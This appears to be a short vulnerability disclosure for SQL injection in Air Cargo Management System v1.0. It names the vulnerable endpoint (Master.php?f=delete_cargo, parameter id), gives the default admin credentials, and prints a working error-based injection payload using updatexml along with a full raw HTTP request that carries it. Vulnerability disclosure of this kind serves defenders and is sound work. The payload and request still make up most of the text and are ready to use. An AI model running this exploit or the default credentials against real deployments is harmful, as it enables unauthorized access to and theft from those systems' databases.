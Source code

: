 # Air Cargo Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

The password for the backend login account is: admin/admin123

Vulnerability File: /acms/classes/Master.php?f=delete_cargo

Vulnerability location: /acms/classes/Master.php?f=delete_cargo, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /acms/classes/Master.php?f=delete_cargo HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/acms/admin/?page=transactions/view_transaction&id=3
Content-Length: 65
Cookie: PHPSESSID=aaffvur9cmo069649rorqsbmeh
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```
![image](https://user-images.githubusercontent.com/54017627/166405226-7265e2a9-330e-411a-8349-f9620923e071.png)
